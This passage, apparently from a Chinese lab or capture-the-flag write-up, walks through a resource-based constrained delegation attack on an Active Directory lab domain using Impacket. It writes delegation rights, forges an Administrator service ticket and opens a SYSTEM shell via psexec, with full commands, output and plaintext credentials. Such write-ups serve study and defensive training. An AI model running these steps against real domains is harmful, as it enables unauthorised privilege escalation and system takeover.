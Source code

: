 执行 RBCD 攻击

```bash
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q impacket-rbcd xiaorang.lab/lixiuying:'winniethepooh' -dc-ip 172.22.15.13 -action write -delegate-to 'XR-0687$' -delegate-from 'randark$'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] randark$ can now impersonate users on XR-0687$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     randark$     (S-1-5-21-3745972894-1678056601-2622918667-1147)
```

创建票据

```bash
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q impacket-getST xiaorang.lab/'randark$':'admin123###' -dc-ip 172.22.15.13 -spn cifs/XR-0687.xiaorang.lab -impersonate Administrator
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_XR-0687.xiaorang.lab@XIAORANG.LAB.ccache
```

导入创建好的票据

```bash
export KRB5CCNAME=Administrator@cifs_XR-0687.xiaorang.lab@XIAORANG.LAB.ccache
```

无密码情况下直接连接

```bash
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q impacket-psexec  -k -no-pass -dc-ip 172.22.15.13 administrator@XR-0687.xiaorang.lab -codec gbk
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on XR-0687.xiaorang.lab.....
[*] Found writable share ADMIN$
[*] Uploading file oQHVBskO.exe
[*] Opening SVCManager on XR-0687.xiaorang.lab.....
[*] Creating service VNhh on XR-0687.xiaorang.lab.....
[*] Starting service VNhh.....
[!] Press help for extra shell commands
Microsoft Windows [版本 10.0.20348.1668]
(c) Microsoft Corporation。保留所有权利。

C:\Windows\system32> whoami
nt authority\system
```
